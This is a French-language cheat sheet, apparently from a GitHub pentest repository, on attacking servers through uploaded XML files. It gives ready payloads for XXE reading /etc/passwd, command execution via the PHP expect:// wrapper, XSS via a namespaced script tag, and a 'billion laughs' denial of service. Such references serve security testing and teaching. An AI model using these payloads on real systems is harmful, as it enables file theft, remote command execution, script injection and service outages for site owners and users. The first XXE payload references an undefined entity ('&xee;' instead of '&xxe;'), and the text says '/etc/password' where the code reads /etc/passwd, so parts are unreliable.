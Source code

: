 # XML

**Facteur de risque** : XXE, XXS, DoS

**Extension** : .xml

**Type MIME** : application/xml, text/xml

**Description** : L'**Extensible Markup Language** ou **XML** est un langage de balisage, permettant l'échange de contenus complexes.

## Sommaire

- XML External Entity (XXE)

- XSS

- Deny of Service : Billion Laugh Attack

## XML External Entity (XXE)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le fichier doit être traité par le serveur

- L'utilisation de wrapper PHP est possible que si le serveur tourne sous PHP

### Attaque

Pour récupérer un fichier (ici `/etc/password`) :

**xxe\_file.xml** 

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xee;</foo>
```

Si l'utilisation de wrapper PHP est autorisé, notamment `expect`, l'exécution de commande est possible (ici `ls`) :

**xxe\_cmd.xml**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "expect://ls">
]>
<foo>&xxe;</foo>
```

## Cross-Site Scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

**xss.xml**

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

Le payload peut être modifié facilement en changeant la balise `<something>`:

```xml
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```

## Denial of Service : Billion Laugh Attack

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## References

- [An In-Depth Look at XML Document Attack Vectors | OPSWAT Blog | OPSWAT](https://www.opswat.com/blog/depth-look-xml-document-attack-vectors)

- XXE
  
  - [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

- XSS
  
  - [PayloadsAllTheThings/XSS Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-files)

## Todo

- Uploading a “crossdomain.xml” or “clientaccesspolicy.xml” file can
  make a website vulnerable to cross-site content hijacking. These
  files should be uploaded to the root of the website to work.
  However, the “crossdomain.xml” file can be in a subdirectory as long
  as it is allowed in the root “crossdomain.xml” file.
